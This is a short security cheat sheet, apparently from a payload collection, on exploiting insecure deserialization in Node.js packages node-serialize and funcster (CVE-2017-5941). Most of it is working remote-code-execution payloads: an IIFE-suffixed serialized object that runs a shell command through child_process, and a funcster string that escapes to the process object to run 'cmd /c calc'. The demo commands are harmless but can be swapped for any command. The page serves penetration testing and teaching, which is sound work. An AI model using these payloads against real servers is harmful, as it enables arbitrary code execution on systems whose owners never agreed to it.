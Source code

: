 # Node Deserialization

## Summary

* [Exploit](#exploit)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)

## Exploit

* In Node source code, look for:
    * `node-serialize`
    * `serialize-to-js`
    * `funcster`

### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload

### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```


## References

* [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS Deserialization - 8 January 2020- gonczor](https://blacksheephacks.pl/nodejs-deserialization/)
* [CVE-2017-5941 - NATIONAL VULNERABILITY DATABASE - 02/09/2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)